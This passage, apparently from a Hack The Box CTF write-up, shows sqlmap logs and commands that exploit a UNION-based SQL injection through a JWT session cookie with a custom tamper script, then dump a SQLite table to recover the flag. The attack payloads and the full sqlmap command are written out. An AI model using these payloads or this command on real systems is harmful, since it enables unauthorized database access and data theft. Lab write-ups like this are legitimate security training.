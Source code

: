 ```bash
[14:28:53] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (RANDOMBLOB(-1)>0) THEN 1 ELSE 0 END))||'qqzpq',NULL-- SLsn
[14:28:53] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:28:53] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 28 times
[14:28:53] [INFO] fetched data logged to text files under '/home/vscode/.local/share/sqlmap/output/178.128.46.168'

[*] ending @ 14:28:53 /2021-01-06/
```

After some time `sqlmap` has successfully identified an injection point.

> session=' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt

I executed sqlmap again this time with `--dump` argument, I got the flag after a while. The flag was in Database: SQLite_masterdb, Table: flag_storage:
> 
    +----+---------------------------------+
    | id | top_secret_flaag                |
    +----+---------------------------------+
    | 1  | HTB{d0n7_3xp053_y0ur_publ1ck3y} |
    +----+---------------------------------+

Here is the output:
```bash
$ sqlmap -u "178.128.46.168:32678" --dbms "SQLite" --cookie "session=*" --tamper jwt_tamper.py --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:29:13 /2021-01-06/

[14:29:13] [INFO] loading tamper module 'jwt_tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[14:29:14] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:29:14] [WARNING] provided value for parameter 'session' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:29:14] [INFO] testing connection to the target URL
[14:29:14] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[14:29:14] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: session=' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt
---
[14:29:14] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
```